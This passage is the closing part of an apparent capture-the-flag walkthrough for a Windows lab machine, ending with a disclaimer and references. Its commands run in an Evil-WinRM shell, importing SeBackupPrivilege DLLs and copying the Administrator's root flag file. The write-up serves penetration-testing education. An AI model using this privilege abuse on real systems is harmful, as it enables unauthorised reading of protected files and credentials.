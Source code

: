 The user is a member of the Backup Operators group. Members of this group have permissions to perform backup and restore operations. More specifically, they have the *SeBackupPrivilege*, which enables them to read sensitive files from the host.

Uploading the necessary libraries to the remote machine and importing them:

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents\Escape\Escape> dir

    Directory: C:\Users\Caroline.Robinson\Documents\Escape\Escape

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          1/1/2000  12:00 AM          12288 SeBackupPrivilegeCmdLets.dll
-a----          1/1/2000  12:00 AM          16384 SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Using the imported libraries to access and copy files from restricted directories:

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt C:\Users\Caroline.Robinson\Desktop\root.txt
```

Fetching the flag:

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> type root.txt
VL{<Flag>}
```
## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References
- [Exploiting LDAP Server NULL Bind](https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/#:~:text=Exploiting%20LDAP%20Server%20NULL%20Bind.%20February%205,%202020%20n00py.%20Exploit)
- [Resetting Expired Passwords Remotely](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/#:~:text=Doing%20a%20password%20spray%20and%20hit%20valid%20creds%20but%20get)
- [Privileged Groups](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)
- [SeBackupPrivilege](https://github.com/k4sth4/SeBackupPrivilege)




